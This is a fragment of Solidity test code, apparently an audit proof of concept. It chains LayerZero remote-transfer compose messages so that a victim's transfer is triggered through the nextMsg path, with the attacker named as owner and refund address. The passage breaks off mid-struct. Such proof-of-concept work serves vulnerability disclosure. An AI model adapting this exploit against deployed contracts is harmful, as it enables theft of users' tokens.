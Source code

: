 ```solidity
        RemoteTransferMsg memory remoteTransferMsgVictim = RemoteTransferMsg({
            owner: address(bUsdo), // IMPORTANT: This will make the attack be triggered as bUsdo will become the srcChainSender in the nextMsg compose call
            composeMsg: bytes(""),
            lzSendParam: lzSendParamAToBVictim
        });

        uint16 index; // needed to bypass Solidity's encoding literal error
        // Create Toe Compose message for the victim
        bytes memory toeComposeMsgVictim = abi.encodePacked(
            PT_REMOTE_TRANSFER, // msgType
            uint16(abi.encode(remoteTransferMsgVictim).length), // message length (0)
            index, // index
            abi.encode(remoteTransferMsgVictim), // message
            bytes("") // next message
        );
 
        // SECOND MESSAGE (composed)     B ---> A      
        // This second message is a necessary step in order to reach the execution
        // inside `_lzCompose()` where the nextMsg can be triggered

        SendParam memory sendParamBToA = SendParam({
            dstEid: aEid,
            to: OFTMsgCodec.addressToBytes32(address(aUsdo)),
            amountLD: 0, 
            minAmountLD: 0,
            extraOptions: bytes(""),
            composeMsg: bytes(""),
            oftCmd: bytes("")
        });  
        MessagingFee memory feeBToA = MessagingFee({
            nativeFee: 0,
            lzTokenFee: 0
        });
        
        LZSendParam memory lzSendParamBToA = LZSendParam({
            sendParam: sendParamBToA,
            fee: feeBToA,
            extraOptions: bytes(""),
            refundAddress: makeAddr("attacker")
        });

        // Create remote transfer message
        RemoteTransferMsg memory remoteTransferMsg = RemoteTransferMsg({
            owner: makeAddr("attacker"),
            composeMsg: bytes(""),
            lzSendParam: lzSendParamBToA
        });

        // Create Toe Compose message
        bytes memory toeComposeMsg = abi.encodePacked(
            PT_REMOTE_TRANSFER, // msgType
            uint16(abi.encode(remoteTransferMsg).length), // message length
            index, // index
            abi.encode(remoteTransferMsg),
            toeComposeMsgVictim // next message: IMPORTANT to set this to the A --> B message that will be triggered as the `nextMsg`
        );
         
        // INITIAL MESSAGE       A ---> B                      

        // Create `_lzSendParam` parameter for `sendPacket()`
        SendParam memory sendParamAToB = SendParam({
```